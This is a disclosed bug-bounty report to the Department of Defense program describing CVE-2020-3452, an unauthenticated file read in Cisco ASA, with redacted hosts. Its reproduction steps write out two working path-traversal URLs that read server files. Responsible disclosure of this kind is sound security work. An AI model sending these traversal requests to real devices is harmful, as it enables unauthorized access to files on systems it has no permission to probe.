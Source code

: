 # [CVE-2020-3452] Unauthenticated file read in Cisco ASA

## Report Details
- **Report ID**: 1415825
- **URL**: https://hackerone.com/reports/1415825
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-12-02T21:06:18.745Z
- **Disclosed**: 2022-02-14T21:13:45.273Z

## Reporter
- **Username**: b4dc4t
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
I found out that   https://███/ was vulnerable to CVE-2020-3452.

The IP has a SSL certificate pointing to DoD.
`curl -kv https://██████████/`

Output:
```
Server certificate:
*  subject: █████
```

## Impact

Anyone can read any file present on the server.

## System Host(s)
████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
You can test it by visiting the URL:
https://██████████/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
https://███████/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua

## Suggested Mitigation/Remediation Actions
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-ro-path-KJuQhB86



## Attachments
No attachments
